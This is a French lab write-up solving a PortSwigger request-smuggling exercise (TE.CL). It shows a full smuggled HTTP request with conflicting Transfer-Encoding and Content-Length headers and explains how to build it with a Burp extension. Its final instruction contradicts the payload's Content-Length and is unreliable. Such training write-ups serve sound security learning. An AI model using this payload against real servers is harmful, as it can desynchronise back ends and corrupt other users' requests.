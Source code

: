 # Lab

https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

## Solution

On sait que c'est un request smuggling de type TE.CL.

Donc on fait notre requête en HTTP 1.1 avec les header `Transfer-Encoding` et `Content-Length`.

- `Transfer-Encoding: chunked` pour indiquer que le body est en chunk
- `Content-Length: 4` pour indiquer la taille du body

```http
POST / HTTP/1.1
Host: 0a0300ee04aea01583eb7318008b00b0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Connection: keep-alive

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-length: 15

x=1
0


```

Le contenu du premier post est `5c` pour indiquer que le prochain chunk fait 92 octets (0x5c = 92).

Un façon simple de générer cette requête est d'écrire le deuxième POST : 

```http
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-length: 15

x=1
```

De le sélectionner et de faire `clic droit > Extensions > HTTP Request Smuggler > Concert to chunked`.

L'extension va automatiquement ajouter la taille du chunck (5c) et le dernier chunk (0).

Ainsi, il n'y a plus qu'à modifier le `Content-Length` du premier POST pour qu'il soit égal à la taille du contenu du deuxième POST (92).